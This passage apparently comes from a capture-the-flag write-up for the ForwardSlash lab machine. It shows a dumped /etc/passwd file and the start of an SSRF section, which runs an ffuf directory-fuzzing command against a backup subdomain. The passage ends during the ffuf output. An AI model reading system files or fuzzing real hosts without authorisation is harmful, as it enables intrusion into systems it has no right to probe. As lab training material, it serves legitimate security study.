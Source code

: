 ```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pain:x:1000:1000:pain:/home/pain:/bin/bash
chiv:x:1001:1001:Chivato,,,:/home/chiv:/bin/bash
mysql:x:111:113:MySQL Server,,,:/nonexistent:/bin/false
```

### HTTP exploitation: SSRF

We can also see if there are any other pages:

```
$ ffuf -u http://backup.forwardslash.htb/FUZZ -r -c -w ~/CTF/tools/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -e .txt,.php -fs 288

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://backup.forwardslash.htb/FUZZ
 :: Wordlist         : FUZZ: /home/cyfun/CTF/tools/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Extensions       : .txt .php
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 288
________________________________________________
```